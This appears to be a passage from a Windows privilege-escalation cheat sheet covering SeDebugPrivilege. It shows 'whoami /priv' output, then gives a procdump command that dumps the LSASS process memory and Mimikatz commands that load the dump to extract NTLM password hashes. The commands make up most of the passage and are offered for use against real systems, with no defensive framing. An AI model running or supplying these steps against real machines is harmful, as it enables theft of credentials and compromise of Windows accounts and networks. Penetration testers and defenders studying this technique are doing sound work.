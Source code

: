 This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components.

```bash
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Dump Lsass

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Load .dmp file into Mimikatz to extract NTLM hashes:

```bash
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
```




